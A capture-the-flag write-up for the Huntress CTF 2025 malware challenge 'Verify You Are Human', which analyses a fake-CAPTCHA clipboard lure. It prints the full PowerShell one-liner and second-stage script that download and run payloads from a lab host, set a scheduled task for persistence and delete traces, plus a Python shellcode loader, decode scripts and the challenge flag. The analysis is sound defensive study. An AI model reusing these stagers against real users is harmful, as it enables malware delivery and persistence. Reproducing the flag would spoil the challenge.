








# Huntress CTF 2025 - 🐞 Verify You Are Human

**CTF Name:** Huntress CTF 2025
**Challenge name:** 🐞 Verify You Are Human
**Challenge prompt:**
> My computer said I needed to update MS Teams, so that is what I have been trying to do...
> ...but I can't seem to get past this CAPTCHA!

```
CAUTION

This is the Malware category. Please be sure to approach this challenge material within an isolated virtual machine.
```

```
NOTE

Some components of this challenge may be finicky with the browser-based connection. You can still achieve what you need to, but there may be some more extra steps than if you were to approach this over the VPN.

    (i.e., "remove the port" when you need to... you'll know what I mean 😜)
```

**Challenge category:** Malware
**Challenge points:** 10

* * *

## Steps to solve

Once we enter the website, we are presented with "Cloudflare" captcha, which after click presents the following:



I am quite familiar with this type of attack, so it was known to me that malicious payload was stored in the user's clipboard:

```
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://10.1.252.145/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```

The above visible malicious payload saves contents of the `http://10.1.252.145/?tic=1` to the LocalAppData as a file called between 5482 and 86245 with `.PS1` extension - which is later executed.

http://10.1.252.145/?tic=1:

```
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://10.1.252.145/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard
```

Above payload downloads a disguised ZIP, extracts a Python payload to LocalAppData, executes it, and sets delayed persistence.
- Builds the string ".pyc" and creates a random GUID name for a working folder
- Downloads from http://10.1.252.145/?tic=2 to LocalAppData as GUID.pdf (actually a ZIP) and extracts to LocalAppData\GUID
- Identifies pythonw.exe and cpython-3134.pyc inside the extracted folder
- Registers a scheduled task (runs in 180 seconds under the current user) to execute pythonw.exe with the .pyc
- Renames cpython-3134 to cpython-3134.pyc and launches it immediately via rundll32 ShellExec_RunDLL (silent)
- Deletes the original PowerShell script and clears the clipboard

http://10.1.252.145/?tic=2 hosts an downloadable archive file:



After extraction, index directory is visible, and it's contents are:





```
aW1wb3J0IGN0eXBlcwoKZGVmIHhvcl9kZWNyeXB0KGNpcGhlcnRleHRfYnl0ZXMsIGtleV9ieXRlcyk6CiAgICBkZWNyeXB0ZWRfYnl0ZXMgPSBieXRlYXJyYXkoKQogICAga2V5X2xlbmd0aCA9IGxlbihrZXlfYnl0ZXMpCiAgICBmb3IgaSwgYnl0ZSBpbiBlbnVtZXJhdGUoY2lwaGVydGV4dF9ieXRlcyk6CiAgICAgICAgZGVjcnlwdGVkX2J5dGUgPSBieXRlIF4ga2V5X2J5dGVzW2kgJSBrZXlfbGVuZ3RoXQogICAgICAgIGRlY3J5cHRlZF9ieXRlcy5hcHBlbmQoZGVjcnlwdGVkX2J5dGUpCiAgICByZXR1cm4gYnl0ZXMoZGVjcnlwdGVkX2J5dGVzKQoKc2hlbGxjb2RlID0gYnl0ZWFycmF5KHhvcl9kZWNyeXB0KGJhc2U2NC5iNjRkZWNvZGUoJ3pHZGdUNkdIUjl1WEo2ODJrZGFtMUE1VGJ2SlAvQXA4N1Y2SnhJQ3pDOXlnZlgyU1VvSUwvVzVjRVAveGVrSlRqRytaR2dIZVZDM2NsZ3o5eDVYNW1nV0xHTmtnYStpaXhCeVRCa2thMHhicVlzMVRmT1Z6azJidURDakFlc2Rpc1U4ODdwOVVSa09MMHJEdmU2cWU3Z2p5YWI0SDI1ZFBqTytkVllrTnVHOHdXUT09JyksIGJhc2U2NC5iNjRkZWNvZGUoJ21lNkZ6azBIUjl1WFR6enVGVkxPUk0yVitacU1iQT09JykpKQpwdHIgPSBjdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYyhjdHlwZXMuY19pbnQoMCksIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSksIGN0eXBlcy5jX2ludCgweDMwMDApLCBjdHlwZXMuY19pbnQoMHg0MCkpCmJ1ZiA9IChjdHlwZXMuY19jaGFyICogbGVuKHNoZWxsY29kZSkpLmZyb21fYnVmZmVyKHNoZWxsY29kZSkKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX2ludChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkpCmZ1bmN0eXBlID0gY3R5cGVzLkNGVU5DVFlQRShjdHlwZXMuY192b2lkX3ApCmZuID0gZnVuY3R5cGUocHRyKQpmbigpz
```

Selected section looks like base64:



Decoded python code:

```python
import ctypes

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)
fn = functype(ptr)
fn()
```

My script `./Verify You Are Human/constructShellcode.py`:

```python
import base64


def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)


if __name__ == "__main__":
    shellcode = bytearray(
        xor_decrypt(
            base64.b64decode(
                "zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=="
            ),
            base64.b64decode("me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA=="),
        )
    )
    with open("shellcode.bin", "wb") as f:
        f.write(shellcode)
    print(shellcode)

```



I renamed shellcode.bin to shellcode.sc and run scdbgc:



As it can be seen from the assembly above, dword values are pushed onto the stack and later each of the bits is XOR'red with 0xa5

I wrote second python script `./Verify You Are Human/getFlag` to reconstruct the flag from the pushed DWORD values that are XOR'red with 0xa5:

```python
# Based on the assembly code analysis of the deconstructed shellcode,
# this script reconstructs the flag directly as if the shellcode had been executed.

if __name__ == "__main__":
    pushedDWORDs = [
        b"\x93\xd8\x84\x84",
        b"\x90\xc3\xc6\x97",
        b"\xc3\x90\x93\x92",
        b"\x90\xc4\xc3\xc7",
        b"\x9c\x93\x9c\x93",
        b"\xc0\x9c\xc6\xc6",
        b"\x97\xc6\x9c\x93",
        b"\x94\xc7\x9d\xc1",
        b"\xde\xc1\x96\x91",
        b"\xc3\xc9\xc4\xc2",
    ]
    # Combine the DWORDs in reverse order to reconstruct the original byte sequence
    pushedBytes = b"".join(reversed(pushedDWORDs))
    decoded = bytes([b ^ 0xA5 for b in pushedBytes])
    print(decoded.decode())
```



The deconstruction of the flag was successful.

**FLAG:** flag{d341b8d2c96e9cc96965afbf5675fc26}
